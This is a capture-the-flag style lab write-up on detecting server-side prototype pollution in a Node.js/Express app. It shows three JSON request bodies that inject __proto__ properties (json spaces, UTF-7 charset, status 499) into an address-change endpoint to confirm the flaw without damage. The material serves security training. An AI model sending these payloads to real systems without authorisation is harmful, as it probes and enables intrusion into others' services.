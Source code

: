# Detecting server-side prototype pollution without polluted property reflection
# Objective
This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab, confirm the vulnerability by polluting `Object.prototype` in a way that triggers a noticeable but non-destructive change in the server's behavior. As this lab is designed to help you practice non-destructive detection techniques, you don't need to progress to exploitation.

You can log in to your own account with the following credentials: `wiener:peter`


# Solution
## Analysis
Endpoint `/my-account/change-address` allows given user to specify his billing and delivery address.

|![](Images/image-44.png)|
|:--:| 
| *Change billing and delivery address information request* |

## Exploitation
The following payloads can be used to test for potential server side prototype pollution:

- JSON spaces override
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "jMHEAuCX6uUeZUs4ZoXMD59bYgjMhVnq",
  "__proto__": {
    "json spaces": " "
  }
}
```

- Charset override
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "+AGYAbwBv-",
  "sessionId": "jMHEAuCX6uUeZUs4ZoXMD59bYgjMhVnq",
  "__proto__": {
    "content-type": "application/json; charset=utf-7"
  }
}
```

|![](Images/image-45.png)|
|:--:| 
| *Prototype pollution via charset override* |
|![](Images/image-46.png)|
| *Prototype pollution via charset override - payload was correctly decoded* |

- Status code override
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "jMHEAuCX6uUeZUs4ZoXMD59bYgjMhVnq",
  "__proto__": {
    "status": 499
  }
}
```
|![](Images/image-47.png)|
|:--:| 
| *Prototype pollution via status code override* |
|![](Images/image-48.png)|
| *Prototype pollution via status code override - Error - custom status code returned* |